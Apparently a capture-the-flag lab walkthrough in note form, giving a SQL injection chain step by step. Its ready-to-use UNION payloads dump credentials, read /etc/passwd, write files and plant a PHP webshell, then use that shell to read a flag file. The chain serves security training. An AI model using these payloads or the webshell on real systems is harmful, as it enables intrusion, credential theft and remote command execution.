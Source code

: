 *Result:* username,password

---

*Command:* Content of table admin_bk

*Result:* Username:password

---

*Command:* Current user with super_privilege
- 'UNION SELECT 1,super_priv,3,4 FROM mysql.user-- -

*Result:* Super privilege

---

*Command:* Read file + FILE
- 'UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5-- -
- 'UNION SELECT 1,grantee,privilege_type,4 FROM information_schema.user_privileges-- -
  
*Result:* Access to /etc/passwd + write files

---

*Command:* We can write files
- 'UNION SELECT "",'blablabla',"","","" INTO OUTFILE '/var/www/html/dashboard/proof.txt'-- -

*Result:* $TARGET:PORT/dashboard/proof.txt = our file

---

*Command:* Upload webshell
- 'UNION SELECT "","","<?php system($_GET['cmd']); ?>","","" into outfile "/var/www/html/dashboard/shell.php"-- -

*Result:* Access to shell = http://94.237.58.188:38760/dashboard/shell.php?cmd=whoami

---

*Command:* find flag + read file
- http://94.237.58.188:38760/dashboard/shell.php?cmd=ls+/
- http://94.237.58.188:38760/dashboard/shell.php?cmd=cat+/flag_cae1dadcd174.txt
  
*Result:* Flag

---



